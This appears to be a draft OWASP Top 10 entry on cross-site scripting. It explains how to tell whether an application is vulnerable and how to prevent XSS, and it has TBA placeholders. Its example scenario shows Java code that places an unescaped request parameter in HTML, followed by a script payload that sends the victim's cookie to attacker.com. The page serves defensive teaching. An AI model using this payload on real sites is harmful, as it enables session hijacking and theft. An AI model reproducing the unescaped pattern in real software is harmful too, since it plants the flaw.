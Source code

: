 # A3 Cross Site Scripting

| Threat agents | Exploitability | Prevalance | Detectability | Technical Impact | Business Impacts |
| --- | --- | --- | --- | --- | --- |
| App Specific |  EASY | COMMON | AVERAGE | SEVERE | App Specific | 
| TBA | TBA | TBA | TBA. | TBA |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.
Automated tools can find some XSS problems automatically. 

However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

To avoid Server XSS, the preferred option is to properly escape untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into. See the OWASP XSS Prevention Cheat Sheet for details on the required data escaping techniques.

To avoid Client XSS, the preferred option is to avoid passing untrusted data to JavaScript and other browser APIs that can generate active content. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP DOM based XSS Prevention Cheat Sheet.

For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
Use [Content Security Policy](https://www.owasp.org/index.php/Content_Security_Policy) (CSP) to mitigate the impact of potential XSS across your entire site.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker modifies the ‘CC’ parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any  automated CSRF defense the application might employ. See 2017-A8 for info on CSRF.

## References

### OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
* OWASP Types of Cross-Site Scripting
* OWASP XSS Prevention Cheat Sheet
* OWASP DOM based XSS Prevention Cheat Sheet
* OWASP XSS Filter Evasion Cheat Sheet
### External
* CWE Entry 79 on Cross-Site Scripting
* Do we have a non-vendor reference for this? [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
